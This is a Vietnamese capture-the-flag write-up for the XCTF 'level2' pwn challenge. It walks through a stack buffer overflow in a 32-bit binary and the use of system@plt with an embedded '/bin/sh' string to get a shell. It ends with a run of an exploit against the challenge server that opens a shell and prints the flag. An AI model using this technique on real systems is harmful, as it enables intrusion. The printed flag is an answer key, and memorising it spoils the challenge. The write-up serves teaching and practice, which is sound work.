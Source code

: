 # XCTF - PWN Exercise - level2

```c
#include<stdio.h>

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/1_level2 λ checksec level2   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/1_level2/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Hàm `read()` cho nhập 0x100 = 256 mà buf[136] nên có thể buffer overflow, không có hàm giúp đọc flag hay thực thi shellcode. Ý tưởng là do hàm `system()` được gọi đến nên có `system@plt` nên chỉ cần đi đè địa chỉ trả về bằng địa chỉ của `system@plt` là có thể thực thi shell. Vấn đề là ta còn thiếu chuỗi `/bin/sh` làm đối số.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/1_level2 λ strings -a -tx level2 | grep /bin/sh
   1024 /bin/sh
```

Tôi tìm thấy trong file có sẵn chuỗi `/bin/sh` và offset của nó là `0x1024`. Ta dễ dàng tìm được địa chỉ của chuỗi `/bin/sh`.

```
pwndbg> x/10s 0x0804A024
0x804a024 <hint>:	"/bin/sh"
0x804a02c <completed.7181>:	""
0x804a02d:	""
0x804a02e:	""
0x804a02f:	""
0x804a030:	<error: Cannot access memory at address 0x804a030>
0x804a030:	<error: Cannot access memory at address 0x804a030>
0x804a030:	<error: Cannot access memory at address 0x804a030>
0x804a030:	<error: Cannot access memory at address 0x804a030>
0x804a030:	<error: Cannot access memory at address 0x804a030>
```

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/1_level2 λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 63253: Done
[*] Switching to interactive mode
$ ls
bin
dev
flag
level2
lib
lib32
lib64
$ cat flag
cyberpeace{a47dd0c3f651ec778da26ae79c5c255a}
$  
```
